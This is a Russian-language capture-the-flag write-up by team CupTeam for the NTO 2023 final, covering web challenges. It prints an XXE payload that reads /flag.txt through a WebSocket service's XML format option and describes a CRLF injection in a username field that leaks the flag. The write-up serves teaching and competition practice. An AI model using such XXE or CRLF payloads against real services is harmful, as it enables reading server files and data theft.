 # НТО 2023 команда CupTeam
все файлы можно найти на GitHub репозитории - https://github.com/IgorDuino/NTO-final-2023
## Выполнили
Команда "**CupTeam**":
- Андрей Михайлов
- Игорь Кузьменков
- Григорий Муравенко 
- Федор Авдеев
## Содержание

## 1-й Этап Наступательная безопасность
### Web 1
При заполнении формы сервис не делает никаких HTTP запросов, а отправляет данные через WebSocket. В script.js замечаем функции шифрования и дешифрования данных.

Скрипт для отправки запросов через websockets
Файл - web/web1.py

Заметим, что при отправке данных сервис передаёт поле format со значением JSON. Пробуем изменить формат и видим, что сервис принимает формат xml. Используем самую известную уязвимость в этом формате - XXE.
payload:
```jsx=
encrypted({format: 'xml', data: '<!--?xml version="1.0" ?--><!DOCTYPE foo [<!ENTITY example SYSTEM "file:///flag.txt"> ]><data><countries></countries><startdate></startdate><enddate></enddate><resttype></resttype>&example;</data>'})
```
Получаем ответ от сервера:
```json=
{"data":"7J0Yjfd4HIECsHrCT9erTjJhqOz0Kz24L13CC36rwiJv44NtLkbxjPniJoxra5UgjbMvv6qP0wjQsmEvKsMZvIfMB/Sf7fA1o8uzBzoEyEgktphW8lg4wx+8SrmxyRp8rhcTidats8+FSaC067MF8EDIv2b9h+TuTJHQIzvrttzVuCdq3BT9SxXYhksSnILvXRsC0ADIizCQjd9xiCKCmDd2lq/dxcgKjbJXtyVn5xiEFBJaJiUHgyqTExnWAGpQtcFzKnqFosyE54B44CARwcox6FsHSsS1i0DE7pgIn97ju0qmzMWlyrWc8XG743csGOAPGvxpDatC+j4dXehDgq8flj96YArQhOtYrieMTpg4q3X/VfQurnFVNAvl8p/wR8aYoWxzZHkZsGJAWxF2s6b4qJovxhksl/tS/1uX1DY="}
```
Используем функцию decrypted и получаем флаг

### Web 2
В данном отрезке кода видна уязвимость CRLF. Изменяя username мы можем использовать \r - возврат коретки и \n - перенос строки, чтобы поломать запрос. Если запрос поломан сервер отвечает ошибкой с телом запроса, в котором мы видим флаг из-за переноса строки. 
![](https://i.imgur.com/35JmD2N.png)


Эксплойт:

Файл - web/web2.py

### Crypto 1
